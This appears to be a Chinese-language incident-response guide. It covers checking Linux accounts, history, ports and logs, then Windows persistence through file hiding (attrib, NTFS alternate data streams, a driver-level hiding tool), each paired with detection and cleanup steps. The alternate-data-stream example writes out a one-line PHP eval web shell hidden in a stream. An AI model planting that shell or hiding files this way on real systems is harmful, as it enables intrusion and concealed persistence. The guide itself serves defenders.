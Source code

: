 查询特权用户特权用户(uid 为0)
查询可以远程登录的帐号信息
除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
禁用或删除多余及可疑的帐号

#### 查看历史命令
root账户，使用```history```命令
普通帐号，打开/home各帐号目录下的.bash_history，查看历史命令

#### 检查异常端口和进程

#### 检查启动项、计划任务、服务

#### 检测异常文件

查看敏感目录，如/tmp目录下的文件，同时注意隐藏文件夹，以“..”为名的文件夹具有隐藏属性

#### 检查系统日志

日志默认存放位置：/var/log/

### 3.3 权限维持

#### 3.3.1 Window 隐藏文件和破解

##### 利用文件属性
隐藏方法：
使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。
```attrib +s +a +h +r D:\test\project\test .txt```

破解隐藏文件：
打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文
件、文件夹和驱动器”。

##### 利用ADS隐藏文件内容

比如在服务器上echo一个数据流文件进去，生成了一个不可见的shell，即 hidden.jpg
```echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg```

如何查看index.php:hidden.jpg内容：
进入文件所在目录，notepad index.php:hidden.jpg 或者 dir /r

如何删除index.php:hidden.jpg:
直接删除index.php

##### 驱动级文件隐藏

隐藏方法：
通过一些软件来实现，软件名字叫：Easy File Locker
下载链接： http://www.xoslab.com/efl.html

判断特征：
在网站目录未查找到相关文件，且系统目录存在存在以下文件：
```
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

清除方法：
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
```